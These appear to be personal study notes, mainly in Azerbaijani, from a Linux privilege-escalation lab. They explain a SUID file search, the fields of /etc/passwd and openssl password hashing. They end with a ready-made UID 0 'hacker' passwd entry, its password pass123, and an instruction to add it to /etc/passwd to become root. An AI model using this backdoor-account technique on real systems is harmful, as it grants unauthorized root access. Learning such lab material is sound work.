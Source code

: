 ## Common Linux Privesc  tasklarindan 



## fayl sistemində SUID/GUID fayllarını axtarmaq üçün

#find / -perm -u=s -type f 2>/dev/nul

1. find - "tap" əmrini işə salır

2. / - Bütün fayl sistemini axtarır

3. -perm - xüsusi icazələri olan faylları axtarır

4. -u=s - İstənilən icazə bit rejimi fayl üçün təyin edilmişdir. Bu formada simvolik rejimlər qəbul edilir

5. -tip f - Yalnız faylları axtarın

6. 2>/dev/null - Səhvləri aradan qaldırır


## /etc/passwd-haqqinda qeydler.

etc/passwd- dan cox rahat sekilde root`a qalxmaq olar ona gore burada diqqetli olmaq lazimdir

/etc/passwd faylı giriş zamanı tələb olunan vacib məlumatları saxlayır. Başqa sözlə, istifadəçi hesabı məlumatlarını saxlayır

1. O, hər bir hesab üçün : user ID, group ID, home directory, shell, and more haqqda melumat verir

2.Aşağıdakı kimi yeddi sahənin cəmi. Ümumiyyətlə, /etc/passwd fayl girişi aşağıdakı kimi görünür:

    test:x:0:0:root:/root:/bin/bash

iki nöqtə ilə bölünür (:)

1.USer name: İstifadəçi daxil olduqda istifadə olunur. Uzunluğu 1 ilə 32 simvol arasında olmalıdır.

2.Password : X simvolu şifrələnmiş parolun /etc/shadow faylında saxlandığını göstərir. Nəzərə alın ki, CLI-də yazılan parolun hashini hesablamaq və ya parolun hashini /etc/shadow faylında saxlamaq/yeniləmək üçün passwd əmrindən istifadə etməlisiniz, bu halda parol hashı "" kimi saxlanılır. x".

3. User ID ( UID ) : Hər bir istifadəçiyə istifadəçi ID (UID) təyin edilməlidir. UID 0 (sıfır) kök üçün, UID 1-99 isə əvvəlcədən təyin edilmiş digər hesablar üçün qorunur. Əlavə UID 100-999 inzibati və sistem hesabları/qrupları üçün sistem tərəfindən qorunur.
4. Group ID (GID) : Əsas qrup ID (/etc/group faylında saxlanılır)

5. User ID Info : Şərh sahəsi. Bu, istifadəçinin tam adı, telefon nömrəsi və s. kimi istifadəçilər haqqında əlavə məlumat əlavə etməyə imkan verir. Bu sahə barmaq əmri ilə istifadə olunur.

6. Home directory : İstifadəçi daxil olduqda onun daxil olacağı qovluğun mütləq yolu. Bu kataloq mövcud deyilsə, istifadəçilərin kataloqu / olur.

7. Command/shell : Əmr və ya qabığın mütləq yolu (/bin/bash). Tipik olaraq, bu bir qabıqdır. Nəzərə alın ki, bunun bir qabıq olması lazım deyil.


##  parol hash yaratmaq

# openssl passwd -1 -salt [salt] [password]

burada: ilk once opsenssl passwd -1 salt (istifadeci adi) +enter 
daha sonra qoymaq istediyimiz parolu qoyuruq

getend group  root -komandi ile  sisteminizde tanımlanmış tüm grupları ve ilgili bilgileri görüntüleyecektir. (root/root)
root:x:0:0:root:/root:/bin/bash  (burada 0:0 )ancaq roota aid olur diger istifadeciler 1000 1000 den baslayir




## openssl passwd hacker -1 salt hacker pass123

#hazir  root olmaq ucun

hacker:$1$hacker$zVnrpoW2JQO5YUrLmAs.o1:0:0:root:/root:/bin/bash
parol:pass123

at masina cix(bunu ucun nano /etc/passwd)


